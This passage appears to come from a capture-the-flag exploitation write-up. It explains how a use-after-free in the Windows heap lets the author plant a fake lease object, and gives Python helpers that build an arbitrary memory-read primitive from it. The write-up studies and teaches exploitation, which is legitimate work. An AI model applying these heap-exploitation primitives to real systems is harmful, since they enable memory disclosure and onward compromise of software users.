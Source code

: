 <p align="middle" float="left">
  <img src="writeup/exp9.png" style="width: 80%; border-radius: 0%;" />
</p>

Now we can create a helper function for performing an arbitrary read. Some important considerations:

- We have UAF on the only two remaining entries in the LFH.
- Whenever we create a legitimate lease whose string is a fake lease, we know that the fake lease will always take up the spot of one of the UAF leases.
- Therefore, listing the leases will always show both the legitimate lease and the fake lease.
- We do not care about which one is which, we can simply parse the output and look for the id of the fake lease (`RECLAIM_ID`).

```python
RECLAIM_ID = 0x1338

def read(where, size=8):
    string = p64(RECLAIM_ID)
    string += p64(where)
    string += p64(0)
    string += p64(size)
    string += p64(0x100)
    id = create(string)
    res = list()
    assert f"Lease {RECLAIM_ID}".encode() in res
    cancel(id)
    return res.split(f"Lease {RECLAIM_ID} | client id ".encode())[1][:size]

def read_64(where):
    return u64(read(where))
```
